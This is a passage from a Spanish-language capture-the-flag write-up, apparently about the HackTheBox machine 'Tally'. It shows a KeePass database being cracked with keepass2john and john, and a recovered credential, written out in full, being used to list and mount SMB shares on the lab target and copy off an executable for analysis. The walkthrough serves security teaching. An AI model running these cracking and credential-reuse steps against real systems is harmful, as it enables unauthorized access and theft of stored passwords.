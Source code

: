Aqui vemos un fichero `tim.kdbx`. Es interesante porque los ficheros **KDBX** son ficheros KeePass y suelen tener informaciones interesantes como contraseñas.

```bash
cp User/Tim/Files/tim.kdbx /home/s4vitar/Desktop/S4vitar/Tally/content/.
cd !$
chmod 644 tim.kdbx
apt install keepassxc
```

Si lanzamos el KeePassxc y que le damos a abrir una base de datos existente, buscamos el fichero `tim.kdbx` vemos que nos pide una contraseña.
En este caso bamos a lanzar un keepass2john para crackear la contraseña.

### Crackeando un fichero KDBX con keepass2john {-}

```bash
keepass2john tim.kdbx > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Ya tenemos la contraseña. Podemos abrir el fichero KDBX con Keepassxc y aqui ya encontramos una credencial por el usuario Finance.
Vamos a checkear los recursos compartidos a nivel de red con este usuario.

### SMB {-}

```bash
smbclient -L 10.10.10.59 -U "Finance%Acc0unting"
smbclient //10.10.10.59/ACCT -U "Finance%Acc0unting" -c "dir"
```

Tenemos accesso a un nuevo directorio pero contiene muchos otros directorios. Nos creamos otra montura

```bash
mkdir /mnt/smb
mount -t cifs //10.10.10.59/ACCT /mnt/smb -o username=Finance,password=Acc0unting,domain=WORKGROUP,rw
cd /mnt/smb
tree
```

Aqui vemos que hay ficheros ejecutables en la carpeta `zz_Migration/Binaries/New Folder/` y un binario llamado `tester.exe` nos
llama la attencion.

```bash
cp "/mnt/smb/zz_Migration/Binaries/New Folder/tester.exe" /home/s4vitar/Desktop/content
cd /home/s4vitar/Desktop/content
file tester.exe
```

Vemos que es un ejecutable windows. Lo vamos a analyzar con radare2 para saber lo que hace a bajo nivel


### EXE analysis con radare2 {-}
